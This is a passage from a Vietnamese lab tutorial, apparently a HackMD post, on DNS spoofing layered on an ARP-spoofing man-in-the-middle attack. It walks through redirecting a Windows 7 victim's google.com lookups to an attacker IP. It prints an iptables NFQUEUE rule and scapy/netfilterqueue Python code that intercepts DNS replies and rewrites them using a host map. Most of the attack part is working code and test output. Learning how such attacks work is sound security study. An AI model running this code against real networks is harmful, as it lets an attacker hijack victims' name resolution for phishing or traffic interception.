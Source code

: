 truy cập thử vào trên trình duyệt sẽ hiện trang html như sau với IP của attacker là 192.176.45.101

![ảnh](https://hackmd.io/_uploads/BkYPC7vCp.png)

chúng ta chạy file arpspoof.py để khai thác MITM như bài trước và chạy file dns_spoof.py để thay đổi domain từ các gói tin đó sau đó đợi victim truy cập vào trang google.com

- giờ mình đóng giả làm victim và ping thử đến google.com

![ảnh](https://hackmd.io/_uploads/S113i7D0a.png)

- không hiểu sao máy window 7 lại báo không thể tìm thấy domain google.com, mà móng muốn của chúng ta ở đây là nó sẽ ping được nhưng đến địa chỉ ip của attacker tạo 192.176.45.101
- nhưng khi ping đến dantri.com.vn vẫn bình thường

- theo dõi tại máy của attacker thấy các gói tin ping đã được sử lý trong code của chúng ta

![ảnh](https://hackmd.io/_uploads/ryF8i7PRa.png)

- với domain của google.com với IP 172.217.27.46 đã được sửa thành ip của máy attacker là 192.176.45.101
- các domain khác mà chúng ta không muốn sửa như dantri.com.vn thì vẫn như mình thường

- mình sửa câu lệnh trong iptables thành

```bash!
iptables -A INPUT -j NFQUEUE --queue-num 0
```

để lọc các gói khi đi vào trong máy tính attacker và chúng ta sẽ khai thác trên máy local của attacker và được đoạn code sau:

```python!
from scapy.all import *
from netfilterqueue import NetfilterQueue
import os

# for example, google.com will be redirected to 192.176.45.101
dns_hosts = {
    b"www.google.com": "192.176.45.101",
    b"google.com.": "192.176.45.101",
    b"youtube.com.": "192.176.45.101"
}


def process_packet(packet):
    """
    Whenever a new packet is redirected to the netfilter queue,
    this callback is called.
    """
    # convert netfilter queue packet to scapy packet
    scapy_packet = IP(packet.get_payload())

    if scapy_packet.haslayer(DNSRR):
        # if the packet is a DNS Resource Record (DNS reply)
        # modify the packet
        print("=================================================")
        print("[Before]:", scapy_packet.summary())
        try:
            scapy_packet = modify_packet(scapy_packet)
        except IndexError:
            # not UDP packet, this can be IPerror/UDPerror packets
            pass
        print("[After ]:", scapy_packet.summary())
        # set back as netfilter queue packet
        packet.set_payload(bytes(scapy_packet))
    # accept the packet
    packet.accept()
```